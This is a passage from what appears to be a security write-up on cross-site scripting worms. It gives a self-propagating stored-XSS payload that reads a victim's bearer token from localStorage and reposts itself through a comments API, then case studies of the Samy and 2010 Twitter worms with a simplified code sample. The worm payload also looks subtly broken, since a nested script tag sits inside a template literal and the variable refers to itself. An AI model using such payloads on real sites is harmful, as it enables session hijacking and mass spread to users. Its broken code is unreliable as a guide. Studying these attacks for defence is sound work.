 2. **Spread XSS to Other Users**
   ```html
   <script>
     // Self-propagating XSS worm
     const maliciousComment = `<script>
       // Replicate this script in new comments
       fetch('/api/comments/task/' + window.location.pathname.split('/').pop(), {
         method: 'POST',
         headers: {
           'Authorization': 'Bearer ' + localStorage.getItem('token'),
           'Content-Type': 'application/json'
         },
         body: JSON.stringify({
           content: '${maliciousComment.replace(/'/g, "\\'")}'
         })
       });
     </script>`;
     
     // Execute the worm
     eval(maliciousComment);
   </script>
   ```

## Real-World Examples

### Case Study 1: Samy Worm (MySpace, 2005)

**Impact**: 1 million infected profiles in 20 hours
**Attack Vector**: Stored XSS in MySpace profiles
**Propagation**: Self-replicating JavaScript worm

**Technical Details**:
- Exploited MySpace's inadequate input filtering
- Used CSS and JavaScript to bypass filters
- Each infected profile automatically infected visitors
- Caused complete MySpace shutdown for repairs

**Code Sample**:
```javascript
// Simplified version of Samy worm technique
var xmlHttp = new XMLHttpRequest();
xmlHttp.open("POST", "/api/profile/update", true);
xmlHttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xmlHttp.send("bio=" + encodeURIComponent(wormCode));
```

### Case Study 2: Twitter XSS Worm (2010)

**Impact**: Thousands of accounts compromised
**Attack Vector**: Reflected XSS in tweet display
**Propagation**: Automatic retweeting of malicious content

**Technical Details**:
- Exploited onmouseover event in tweet links
- Triggered when users hovered over malicious tweets
- Automatically retweeted itself to spread further
- Demonstrated rapid XSS worm propagation
